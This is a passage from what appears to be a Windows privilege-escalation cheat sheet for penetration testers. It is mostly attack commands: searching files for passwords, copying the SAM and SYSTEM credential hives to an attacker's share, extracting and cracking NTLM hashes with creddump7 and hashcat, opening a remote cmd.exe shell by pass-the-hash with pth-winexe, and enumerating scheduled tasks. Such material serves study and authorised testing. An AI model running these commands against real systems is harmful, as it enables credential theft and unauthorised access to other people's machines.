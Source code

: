 #### Manually search
```
dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

### SAM
Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes. Located in: ```C:\Windows\System32\config directory.``` or ```C:\Windows\Repair``` or  ```C:\Windows\System32\config\RegBack directories```

#### Copy them to kali
```
copy C:\Windows\Repair\SAM \\<IP>\<SHARE>\
copy C:\Windows\Repair\SYSTEM \\<IP>\<SHARE>\
```

#### Run creddump pdump.py
- https://github.com/Neohapsis/creddump7.git
- /usr/share/creddump7/pwdump.py

```
python2 creddump7/pwdump.py SYSTEM SAM
```

#### Crack with hashcat
```
hashcat -a 0 -m 1000 --force <HASHES> <WORDLIST>
```

#### Pass the hash login
```
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //<IP> cmd.exe
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //<IP> cmd.exe
```

## Scheduled tasks
Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

#### List all scheduled tasks
```
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

## Insecure GUI Apps
On some (older) versions of Windows, users could be granted the permission to run certain GUI apps with administrator privileges. There are often numerous ways to spawn command prompts from within GUI apps, including using native Windows functionality. Since the parent process is running with administrator privileges, the spawned command prompt will also run with these privileges. I call this the “Citrix Method” because it uses many of the same techniques used to break out of Citrix environments.
